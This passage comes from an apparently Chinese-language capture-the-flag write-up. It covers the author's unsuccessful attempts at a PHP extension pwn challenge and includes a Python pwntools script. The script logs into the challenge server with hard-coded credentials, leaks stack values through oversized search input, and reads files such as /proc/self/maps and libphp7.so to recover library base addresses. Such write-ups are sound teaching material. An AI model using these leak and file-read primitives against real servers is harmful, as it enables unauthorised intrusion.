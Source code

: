 ```bash
fi
```

## 自己瞎试

比赛的时候没想明白栈上的问题，导致试了一堆方法，甚至想通过php的函数让apache正常返回，将命令执行的结果塞到网页中，因此还研究半天php内核，因为想ROP到php的内核函数上，但最终无果，一堆乱七八糟的尝试如下：

```python
from pwn import *
import requests,re 

uu64    = lambda data   :u64(data.ljust(8, b'\0'))

#url  = "http://134.175.185.244"
url  = "http://49.51.251.99"
libc = ELF("./libc.so")
minc = ELF("./Minclude.so")
session = requests.Session()


def login():
    paramsPost = {"password":"goodlucktoyou","submit":"submit","username":"admin"}
    session.post(url+"/index.php", data=paramsPost)


def send(payload):
    paramsPost = {"submit":"submit","search":payload}
    try:
        response = session.post(url+"/select.php", data=paramsPost)
        print response.content
        return re.findall('\<\/form\>(.*?)\<br\>',response.content)[0]
    except:
        print "error"

def read(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    #print response.content
    return response.content[1517+len(payload):-1]

def down(payload,filename):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    f = open(filename, "w")
    f.write(response.content[1517+len(payload):-2])

login()
stack = uu64(send('a'*0x64)[0x64:])
some  = uu64(send('a'*0x70)[0x70:])

down("/usr/lib/apache2/modules/libphp7.so","remotelibphp.so")
# down("/proc/self/maps","maps")
# down("/usr/local/lib/php/extensions/no-debug-non-zts-20170718/Minclude.so","Minc.so")

ret = 0x7f2fb1c111b4

libc.address = int('0x'+re.findall('(.*?)libc-2.28',read("/proc/self/maps"))[0][:12],16)
php_addr = int('0x'+re.findall('(.*?)libphp',read("/proc/self/maps"))[0][:12],16)
include_addr = int('0x'+re.findall('(.*?)Minclude',read("/proc/self/maps"))[0][:12],16)
log.warn("libc: "+str(hex(libc.address)))
log.warn("stack: "+str(hex(stack)))
log.warn("php: "+str(hex(php_addr)))
```
